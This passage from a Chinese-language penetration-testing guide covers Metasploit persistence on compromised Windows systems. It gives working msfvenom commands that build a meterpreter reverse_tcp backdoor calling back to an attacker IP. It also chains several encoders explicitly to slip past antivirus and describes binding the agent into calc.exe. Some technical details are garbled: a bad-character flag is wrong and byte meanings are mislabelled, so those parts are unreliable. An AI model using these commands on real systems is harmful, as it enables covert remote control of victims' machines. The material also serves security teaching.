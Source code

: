 请注意，我们已经任意选择了一个端口供`persistence`使用；攻击者必须验证本地防火墙设置，确保该端口已开放，或者使用`reg`命令打开该端口。与大多数 Metasploit 模块一样，只要端口未被占用，任何端口都可以被选择。

后期利用模块的`persistence_exe`脚本将在临时目录中放置一个可执行文件。该脚本还将该文件添加到注册表的本地自动运行部分。由于后期利用模块`persistence_exe`没有认证，任何人都可以利用它访问被攻破的系统，因此在发现或渗透测试完成后，应该尽快将其从系统中移除。要移除该脚本，请确认资源文件的位置以便清理，然后执行以下资源命令：

```
meterpreter>run multi_console_command -rc /root/.msf4/logs/persistence/<Location>.rc 
```

## 使用 Metasploit 创建独立持久性代理

Metasploit 框架可以用来创建一个独立的可执行文件，使其能够在被攻破的系统上持久存在，并允许交互式通信。独立包的优势在于，它可以提前准备和测试，以确保连接性，并进行编码以绕过本地的杀毒软件：

1.  要制作一个简单的独立代理，可以使用`msfvenom`。在*图 13.7*所示的示例中，代理配置为使用`reverse_tcp`外壳，将连接到攻击者 IP 的本地主机端口`443`：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -e x86/shikata_ga_nai -i 5 -f exe -o attack1.exe 
    ```

    名为`attack.exe`的代理将使用一个 Win32 可执行模板：

    ![](img/B17765_13_07.png)

    图 13.7：创建一个后门利用程序，通过特定端口连接回 Kali Linux

    该文件使用`x86/shikata_ga_nai`编码器对`attack1.exe`代理进行五次编码。每次重新编码后，检测变得更加困难。然而，可执行文件的大小也会增加。

    我们可以通过使用`-b x64/other`在`msfvenom`中配置编码模式，以避免特定字符。例如，在编码持久性代理时应避免以下字符，因为它们可能导致攻击被发现和失败：

    +   `\x00`：表示 0 字节地址

    +   `\xa0`：表示换行

    +   `\xad`：表示换行符

1.  要创建多重编码的有效负载，请使用以下命令：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -e x86/shikata_ga_nai -i 8 raw | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o multiencoded.exe 
    ```

1.  你还可以将`msfvenom`编码到现有的可执行文件中，修改后的可执行文件和持久性代理都将正常工作。要将持久性代理绑定到可执行文件（如计算器`calc.exe`），首先在 Kali Linux 中复制适当的`calc.exe`文件。你可以通过 Meterpreter 从现有会话中下载它，运行`meterpreter > download c:\\windows\\system32\\calc.exe`。
